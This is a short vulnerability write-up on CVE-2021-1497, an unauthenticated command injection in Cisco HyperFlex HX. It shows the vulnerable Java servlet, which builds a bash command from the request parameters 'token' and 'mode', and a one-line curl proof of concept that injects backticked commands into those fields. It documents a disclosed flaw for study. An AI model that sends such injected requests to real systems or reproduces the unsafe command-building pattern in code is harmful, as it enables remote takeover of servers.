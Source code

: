 # Cisco HyperFlex HX storfs-asup Remote Command Execution Vulnerability CVE-2021-1497

## Vulnerability Description

Cisco fixes two Unauth RCE and an arbitrary file upload in the HyperFlex HX data platform discovered by researchers Nikita Abramov and Mikhail Klyuchnikov

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Cisco HyperFlex HX</span>

## Vulnerability reappears

Code with vulnerability

```java
 protected void processRequest(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
    String action = request.getParameter("action");
    if (action == null) {
      String msg = "Action for the servlet need be specified.";
      writeErrorResponse(response, msg);
      return;
    }
    try {
      String token = request.getParameter("token");
      StringBuilder cmd = new StringBuilder();
      cmd.append("exec /bin/storfs-asup ");
      cmd.append(token);
      String mode = request.getParameter("mode");
      cmd.append("  ");
      cmd.append(mode);
      cmd.append("  > /dev/null");
      logger.info("storfs-asup cmd to run : " + cmd);
      ProcessBuilder pb = new ProcessBuilder(new String[] { "/bin/bash", "-c", cmd.toString() });
      logger.info("Starting the storfs-asup now: ");
      long startTime = System.currentTimeMillis();
      Process p = pb.start();
      InputStream errStream = p.getErrorStream();
      String errMsg = FileUtils.readToString(errStream);
      int exitCode = p.waitFor();
      long timeTaken = System.currentTimeMillis() - startTime;
      logger.info("storfs-asup command completed in (" + timeTaken + " ) milliseconds, with exit code (" + exitCode + ") and error message: " + errMsg);
      errStream.close();
      OutputStream outStream = p.getOutputStream();
      outStream.flush();
      outStream.close();
      if (exitCode != 0)
        throw new Exception(errMsg);
    } catch (IOException ex) {
      logger.error("Failed to generate asup: " + ex);
    } catch (Exception ie) {
      logger.error("Failed to run the /bin/storfs-asup command.");
    } finally {
      logger.info("Done executing asup command. ");
    }
  }
```



POC is

```plain
curl -v http://xxx.xxx.xxx.xxx/storfs-asup -d 'action=&token=`id`&mode=`id`'
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/cisco-9.png)
